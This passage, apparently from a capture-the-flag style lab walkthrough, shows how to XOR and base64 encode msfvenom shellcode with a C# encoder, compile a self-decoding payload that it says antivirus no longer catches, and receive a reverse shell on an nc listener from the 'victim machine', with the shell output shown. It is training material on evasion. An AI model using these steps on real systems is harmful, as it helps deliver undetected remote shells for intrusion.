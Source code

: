 The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the **`buf`** variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

Compiling and running our custom CSharp encoder

```
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

```bash
csc.exe Encrypter.cs
```

```bash
.\Encrypter.exe
```

# Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at **`C:\Tools\CS Files\EncStageless.cs`**):

[*Full Payload Code (Click to read)*](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Enc%20Stageless%20cs%20708230a1f2424e068fa158c44c73b5db.md)

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

Compile Our Encrypted Payload

```
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an **`nc`** listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

Set Up nc Listener

```
user@AttackBox$ nc -lvp 443Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```
